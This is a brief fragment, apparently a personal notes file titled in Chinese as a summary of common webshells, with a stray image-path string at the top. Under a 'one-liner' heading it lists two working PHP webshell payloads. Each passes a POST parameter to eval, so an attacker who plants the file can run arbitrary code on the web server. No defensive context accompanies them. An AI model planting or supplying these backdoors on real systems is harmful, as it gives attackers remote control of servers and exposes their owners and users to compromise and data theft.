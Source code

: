 }







常用webshell总结
{
	一句话
	{
		<?php eval($_POST[a]); ?>
		<script language="php">eval($_POST[a]);</script>
		
		
		
	}
	
}

